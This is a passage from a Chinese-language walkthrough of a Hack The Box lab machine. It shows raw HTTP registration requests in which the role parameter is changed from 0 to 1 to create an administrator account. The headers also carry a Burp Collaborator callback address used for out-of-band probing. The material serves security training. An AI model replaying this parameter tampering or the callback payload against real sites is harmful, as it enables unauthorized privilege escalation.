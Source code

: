 ![](img/e8ccd0c72018ea6240dbcf5d18569f78.png)

接下来，我检查了注册过程的 HTTP 请求，发现了一些有趣的参数，名为`&roleid=0`。它当前配置为 0，但如果我们将其更改为 1，并查看我们是否可以注册一个管理员用户。

`<b>HTTP POST Request (register.php)</b>`

*   常规用户注册

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 [root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net](mailto:root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate...snip...uid=bigb0ss&password=bigb0ss&confirm=bigb0ss&roleid=0
```

*   管理员用户注册

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 [root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net](mailto:root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate...snip...uid=bigb0ss_a&password=bigb0ss&confirm=bigb0ss&roleid=1
```
